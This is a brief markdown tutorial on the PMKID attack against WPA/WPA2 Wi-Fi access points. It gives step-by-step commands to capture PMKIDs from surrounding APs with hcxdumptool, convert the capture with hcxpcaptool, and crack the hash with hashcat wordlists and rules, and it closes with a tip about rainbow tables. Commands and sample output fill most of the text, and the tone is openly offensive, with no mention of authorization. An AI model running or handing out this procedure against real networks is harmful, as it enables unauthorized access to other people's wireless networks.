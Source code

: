 ```yaml
---
title: PMKID Attack
---
```


## What is this about?
Saying hello to the AP, getting a specific optional field from that and cracking it...

### Step 0
Read [this](https://en.wikipedia.org/wiki/IEEE_802.11i-2004) like your life depended on it.

### Get the tools
[https://github.com/ZerBea/hcxdumptool](https://github.com/ZerBea/hcxdumptool)

[https://github.com/ZerBea/hcxtools](https://github.com/ZerBea/hcxtools)

Run a *make* and you're all setup!

### Dump the goods

First things first, switch your interface to monitor mode and then lets request the PMKID from surrounding APs and dump that in /tmp/dump.pcap. You can also RTFM for a lot more customization options!
```
./hcxdumptool -o /tmp/dump.pcap -i potato-interface --enable_status=1
```
This will start the process and you'll get something like the following info
```
start capturing (stop with ctrl+c)
NMEA 0183 SENTENCE........: N/A
INTERFACE NAME............: potato-interface
INTERFACE HARDWARE MAC....: deadbeef1337
DRIVER....................: rtl88XXau
DRIVER VERSION............: 5.6.0
DRIVER FIRMWARE VERSION...: 
ERRORMAX..................: 100 errors
BPF code blocks...........: 0
FILTERLIST ACCESS POINT...: 0 entries
FILTERLIST CLIENT.........: 0 entries
FILTERMODE................: unused
WEAK CANDIDATE............: 12345678
ESSID list................: 0 entries
ROGUE (ACCESS POINT)......: 00504785ad5d (BROADCAST HIDDEN)
ROGUE (ACCESS POINT)......: 00504700ad5e (BROADCAST OPEN)
ROGUE (ACCESS POINT)......: 00504785ad5f (incremented on every new client)
ROGUE (CLIENT)............: b0febd79cfaf
EAPOLTIMEOUT..............: 20000 usec
REPLAYCOUNT...............: 65361
ANONCE....................: 90577414bf6b5f7e8c156decd7f54163eb52d8030b4c01ce21e770b3f7fecd0a
SNONCE....................: c8011ea225341264d5d98ba52337a3513a60e518eeea4a0ee30e55c72939e139
```
If an AP around you is vulnerable then the following message will appear, this might take some time so be patient.
```
12:38:04   2 3c8d203ac2e6 001122334455 target [EAPOL:M2M3 EAPOLTIME:3 RC:3 KDV:2]
12:38:04   2 3c8d203ac2e6 001122334455 target [EAPOL:M3M4ZEROED EAPOLTIME:3014 RC:3 KDV:2]
12:39:45   2 3c71bfc2b1c8 001122334455 target [PMKID:<THE SHA1 HASH YOU'RE LOOKING FOR> KDV:2]
```
Which means that the AP with the mac address 001122334455 has sent its pmkid to you!

### Convert and crack
Check the hcxpcaptool options out, this is for hashcat 16800 mode
```
./hcxpcaptool -k /tmp/dump.hash /tmp/dump.pcap
```
Run your hashcat and wait for it ;)
```
hashcat -m 16800 -w 4 -a 3 /tmp/dump.hash mypwnerdictionnary -r mypwnerrules.rule
```
Oh you ain't got all day and need access now? Well go back to the wiki link, re-read it and guess how the PMKID is built? Yep, you might want to check out [hcxkeys](https://github.com/ZerBea/hcxkeys) and get the SSID for the rainbowtables ;)